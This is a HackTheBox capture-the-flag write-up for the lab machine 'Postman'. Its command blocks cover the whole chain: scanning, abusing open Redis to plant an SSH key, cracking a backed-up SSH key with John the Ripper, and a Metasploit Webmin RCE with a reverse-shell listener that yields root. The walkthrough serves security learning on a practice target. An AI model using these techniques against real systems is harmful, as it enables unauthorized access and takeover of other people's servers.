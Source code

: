 ```yaml
---
layout: article
title: HackTheBox - Postman
tags: HackTheBox write-up
date: 2019-01-01 08:00:00 +0100
---
```


![banner](/assets/images/postman.png)

<!--more-->

<h2>Postman</h2>
<h3>The Basics</h3>
The first thing we should do is map the box IP address to the box name  .htb in the `/etc/hosts` file.
`10.10.10.160   postman.htb`

<h3>Initial Scan</h3>
Next up we run our standard NMAP scan `nmap -sC -sV postman.htb` as well as a full port scan in the background `nmap -sC -sV -p- postman.htb &`. We get results back for 4 ports: 22 SSH open, 80 HTTP open running Apache/2.3.29 on Ubuntu, 6379 redis open running Redis key-value store 4.0.9 and 10000 HTTP open running MiniServ 1.910 (Webmin httpd).

![Initial NMAP scan](/assets/images/postman-initial-scan.png)

<h3>Web enumeration</h3>
Before we take a manual look at the webservers on ports 80 and 10000, we run a gobuster in the background `gobuster dir -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -u http://postman.htb`. However this yields nothing of interest.

When we manually look at `http://postman.htb` we see nothing of interest. Moving on we try `http://postman.htb:10000`, we get an error telling us the webserver is running SSL and to try `https://Postman:10000` instead. When we navigate to `https://postman.htb:10000` and accept the certificate, we can see a Webmin login panel.

A quick search for *webmin* using searchsploit gives us quite a few exploits, since nmap told us the Webmin version running on the box is `1.910` we can look at `Webmin 1.910 - 'Package Updates' Remote Command Execution (Metasploit)` using `searchsploit -x exploits/linux/remote/46984.rb`. Looking through the script and reading the description we can quickly tell we have to be authenticated and authorized to the Package Updates module. Since we don't have any form of credentials yet we can move on.

![searchsploit webmin](/assets/images/postman-ss-webmin.png)

<h3>Exploiting Redis to drop a SSH key</h3>
For the next part we will be using the Redis-CLI, read the [Redis Documentation](https://github.com/antirez/redis) on how to install.
Using `redis-cli -h 10.10.10.160` let's us anonymously authenticate with the redis server on port 6379. Running the `DBSIZE` command tells us the current database is empty.
With the `CONFIG GET *` command we can view the running configuration. We can use Redis' save function to write data to a file. Using this vulnerability we can drop a SSH key on the box with the following commands.

```
ssh-keygen -t rsa                                           # generate ssh key
(echo -e "\n\n"; cat id_rsa.pub; echo -e "\n\n") > foo.txt  # write public key to file preceeded and ended with two new lines
cat foo.txt | redis-cli -h 10.10.10.160 -x set pub          # direct the output of foo.txt to a dbset called 'pub'
redis-cli -h 10.10.10.160                                   # connect to redis
CONFIG SET DIR "/var/lib/redis/.ssh/"                       # configure the directory to write in
CONFIG SET slave-read-only no                               # disable slave read only
CONFIG SET dbfilename "authorized_keys"                     # set the filename to write our database to
SAVE                                                        # save the redis db to file
EXIT                                                        # exit
```

![redis exploit](/assets/images/postman-redis-exploit.png)

Next we can SSH into the box with the user **redis** `ssh -i id_rsa redis@10.10.10.160`

![redis ssh](/assets/images/postman-redis-ssh.png)

<h3>Cracking SSH key to gain user</h3>
With our initial shell on the box secured, we can start looking around for interesting files. Before we start running scripts like [LinEnum](https://github.com/rebootuser/LinEnum) and [Jalesc](https://github.com/itsKindred/jalesc) there are a couple of `find` commands I like to run to get a quick overview of what's on the box.

```
find / -user $(whoami) 2>/dev/null | egrep -v '(/proc)'                                         #find user owned files
find / -writeable 2>/dev/null | egrep -v '(/proc|/run|/dev)'                                    #find writeable files
find / -readable 2>/dev/null |egrep -v '(/proc|/run|/dev)' | egrep '\.bak|id_rsa|\.pub|\.key'   #find backups, ssh keys, key files,etc.
```

The last one gives a nice hit: `/opt/id_rsa.bak`. We can copy the file to our current directory using `scp -i id_rsa redis@10.10.10.160:/opt/id_rsa.bak .` from our host terminal.

![redis find backups](/assets/images/postman-find-backups.png)

Next we need to convert the SSH key to a format which is compatible with JohnTheRipper, we can do this with `ssh2john.py id_rsa.bak > id_rsa.hash`. Now we can attempt to crack it `john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.hash`. After a couple of seconds John finds a password for the key.

![john cracking ssh-key](/assets/images/postman-john-ssh.png)

Now that we have a cracked SSH key, we can try logging in with it. If we inspect the contents of `/etc/passwd` we can see there is another user on the box called **Matt**.
Unfortunately the key does not appear to be active anymore and the connection will get closed. However we can use the password to change to the user Matt from our Redis shell with `su - Matt`. Now we can grab the **User** flag `cat user.txt`.

![Matt shell](/assets/images/postman-matt-shell.png)

<h3>Exploiting Webadmin RCE to get root</h3>
Time to move on from **User** and get **root**. Now that we have a set of credentials, let's return to the webmin login panel and try logging in with them. Success! Since we have working credentials and can access the Update Packages module, we can try our exploit we discovered earlier.

```
msfconsole
use exploit/linux/http/webmin_packageup_rce
set USERNAME Matt
set PASSWORD co************
set RHOSTS 10.10.10.160
set RPORT 10000
set SSL true
set LHOST 10.10.14.<your-ip-here>
exploit
```

We got our shell. We can upgrade it using `python -c "import pty;pty.spawn('/bin/bash');"`. and grab the **root** flag `cat /root/root.txt`.

![root shell](/assets/images/postman-root-shell.png)